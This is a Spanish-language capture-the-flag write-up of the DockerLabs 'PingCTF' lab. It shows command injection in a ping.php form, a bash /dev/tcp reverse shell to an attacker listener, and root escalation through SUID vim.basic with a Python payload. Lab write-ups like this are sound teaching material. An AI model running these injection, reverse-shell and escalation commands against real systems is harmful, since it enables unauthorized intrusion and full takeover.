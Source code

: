 # 🖥️ Writeup - PingCTF 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip PingCTF.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh ping_ctf.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 
```bash
nmap -n -Pn -sCV -p80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-04 19:38 CEST
Nmap scan report for 172.17.0.2.
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Ping
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.69 seconds
```
El único puerto abierto es el puerto `80`, así que vamos a comprobar qué hay alojado.

Encontramos una especie de portal donde podemos verificar la conectividad introduciendo `IPs` o dominios.


![Portal de conectividad](../images/IP%20verify.png)

Haremos una prueba verificando la conectividad con Google introduciendo `8.8.8.8`.

Se nos redirige a una página de resultados en la que podemos ver que la URL es la siguiente:

```
http://172.17.0.2/ping.php?target=8.8.8.8
``` 

Es decir, el archivo `ping.php` ejecuta un comando `ping` al target que le hemos pasado como parámetro.

Si conseguimos inyectar algún comando propio junto con la `IP`, obtendremos un `RCE` y una potencial vía de intrusión.

Vamos a probar el clásico punto y coma después de la `IP`, seguido de un comando nuestro.

```bash
8.8.8.8;whoami
``` 
![whoami](../images/whoami.png)

Como vemos, ha funcionado y estamos interactuando con el usuario `www-data`.

Ahora vamos a intentar obtener una `reverse shell` a través del `RCE`, y para ello utilizaremos `BurpSuite` para interceptar la petición y manipularla con mayor comodidad.

Una vez interceptada la petición, inyectamos el comando:

```bash
bash -c 'bash -i >& /dev/tcp/10.0.4.12/4444 0>&1'
``` 
Luego seleccionamos el comando y pulsamos `Ctrl + U` para aplicar URL encoding.

Colocamos un listener en el puerto `4444` de nuestra máquina atacante.

```bash
nc -nlvp 4444
```
Hacemos `forward` a la petición y recibimos la `reverse shell` en la máquina atacante.

Info:
```
listening on [any] 4444 ...
connect to [10.0.4.12] from (UNKNOWN) [172.17.0.2] 56276
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@21a8aa7e4e6e:/var/www/html$
```

# TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```
`ctrl Z`
```bash
stty raw -echo; fg
```
```bash
reset xterm
```
```bash
export TERM=xterm
```
```bash
export BASH=bash
```

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```

```bash
find / -perm -4000 -type f 2>/dev/null 
```

```bash
sudo getcap -r / 2>/dev/null
```

Info:
```
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/vim.basic
```

En los binarios con permisos SUID nos llama la atención el último: `vim.basic`.

Es probable que podamos inyectar comandos en el editor de texto y ejecutarlos como root, así que vamos a intentarlo.

Probamos con los siguientes comandos, pero ninguno de ellos funcionó.

```bash
/usr/bin/vim.basic -c ':!bash -p'
```

```bash
/usr/bin/vim.basic -c ':set shell=/bin/sh' -c ':shell'
```

Finalmente, lo conseguimos con el comando:

```bash
/usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/bash", "bash", "-pc", "reset; exec bash -p")'
```
Info:
```
bash-5.2# whoami
root
bash-5.2# 
```

Somos root!